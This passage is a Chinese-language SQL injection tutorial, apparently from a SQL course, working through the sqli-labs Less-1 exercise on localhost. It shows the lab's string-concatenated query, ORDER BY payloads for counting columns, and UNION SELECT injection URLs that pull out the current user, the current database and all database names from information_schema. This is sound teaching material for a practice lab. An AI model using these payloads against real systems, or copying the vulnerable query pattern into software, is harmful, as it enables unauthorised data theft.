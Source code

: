 ```
    $sql="SELECT ... FROM ... WHERE id='$id' LIMIT 0,1";
    

```

两处省略号的地方分别代表SELECT语句中的字段名和数据表名称。

### 判断查询语句的字段数

现在我们已经对后台的SQL查询已经有了大致的判断，它是通过字符串拼接完成的SQL查询。现在我们再来判断下这个查询语句中的字段个数，通常可以在输入的查询内容后面加上 ORDER BY X，这里X是我们估计的字段个数。如果X数值大于SELECT查询的字段数，则会报错。根据这个原理，我们可以尝试通过不同的X来判断SELECT查询的字段个数，这里我们通过下面两个URL可以判断出来，SELECT查询的字段数为3个：

报错：

```
    http://localhost/sqli-labs-master/Less-1/?id=1' order by 4 --+
    

```

正确：

```
    http://localhost/sqli-labs-master/Less-1/?id=1' order by 3 --+
    

```

### 获取当前数据库和用户信息

下面我们通过SQL注入来获取想要的信息，比如想要获取当前数据库和用户信息。

这里我们使用UNION操作符。在MySQL中，UNION操作符前后两个SELECT语句的查询结构必须一致。刚才我们已经通过实验，判断出查询语句的字段个数为3，因此在构造UNION后面的查询语句时也需要查询3个字段。这里我们可以使用：`SELECT 1,database(),user()`，也就是使用默认值1来作为第一个字段，整个URL为：`http://localhost/sqli-labs-master/Less-1/?id=' union select 1,database(),user() \--+`。

![](/images/sql必知必会/03.第二章SQL性能优化篇/resourceimagea1cda186b5758d80983b4d34818169b719cd.png)  
页面中显示的`security`即为当前的数据库名称，`root@localhost`为当前的用户信息。

### 获取MySQL中的所有数据库名称

我们还想知道当前MySQL中所有的数据库名称都有哪些，数据库名称数量肯定会大于1，因此这里我们需要使用`GROUP_CONCAT`函数，这个函数可以将`GROUP BY`产生的同一个分组中的值连接起来，并以字符串形式返回。

具体使用如下：

```
    http://localhost/sqli-labs-master/Less-1/?id=' union select 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)--+
    

```

这样我们就可以把多个数据库名称拼接在一起，作为字段3返回给页面。

![](/images/sql必知必会/03.第二章SQL性能优化篇/resourceimage7ea77e1aa81c623e28c87666cfdd290462a7.png)  
你能看到这里我使用到了MySQL中的`information_schema`数据库，这个数据库是MySQL自带的数据库，用来存储数据库的基本信息，比如数据库名称、数据表名称、列的数据类型和访问权限等。我们可以通过访问`information_schema`数据库，获得更多数据库的信息。
